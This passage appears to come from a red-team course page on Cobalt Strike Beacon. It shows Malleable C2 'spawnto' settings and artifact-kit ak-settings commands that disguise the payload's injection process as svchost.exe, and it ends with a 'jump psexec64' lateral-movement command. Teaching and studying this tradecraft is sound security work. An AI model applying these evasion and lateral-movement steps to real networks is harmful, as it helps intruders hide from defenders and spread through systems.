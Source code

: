 <figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/a55cdd4bc0a896d13f9527d84560bcad.png" alt=""><figcaption></figcaption></figure>

\
You can also change the default spawn-to process from rundll32 via the `post-ex.spawnto` option in Malleable C2.  For example:

```
post-ex {
   set spawnto_x86 "%windir%\\syswow64\\svchost.exe"; 
   set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
}
```

### psexec spawnto <a href="#el_1742398572966_790" id="el_1742398572966_790"></a>

Beacon's `jump psexec[64]` command uses the service binary artifact to run a Beacon payload, which is the one that spawns a new process to inject into (all the others inject into themselves).  This behaviour allows the service and service binary to be cleaned up immediately after execution.  The service binary cannot use a spawn-to value that contains environment variables like `%windir%`, so the artifact kit adds a dedicated command, called `ak-settings`, which allows you to control its spawn-to separately.

```batch
beacon> help ak-settings
Usage: ak-settings [setting] [value]

Set settings to be used for generating artifacts through the artifact kit

Supported settings:
   service - Set the name to return for the PSEXEC_SERVICE hook.
   spawnto_[x86|x64] - Set the migration process to use for the service executable artifacts.

Usage Examples:
   ak-settings service updater
   ak-settings spawnto_x64 [c:\path\to\whatever.exe]

No arguments will display the current settings.
```

For example, to set the spawnto host to svchost, we would do:

```batch
beacon> ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe

beacon> ak-settings
[*] artifact kit settings:
[*]    service     = ''
[*]    spawnto_x86 = 'C:\Windows\SysWOW64\svchost.exe'
[*]    spawnto_x64 = 'C:\Windows\System32\svchost.exe'

beacon> jump psexec64 lon-ws-1 smb
```
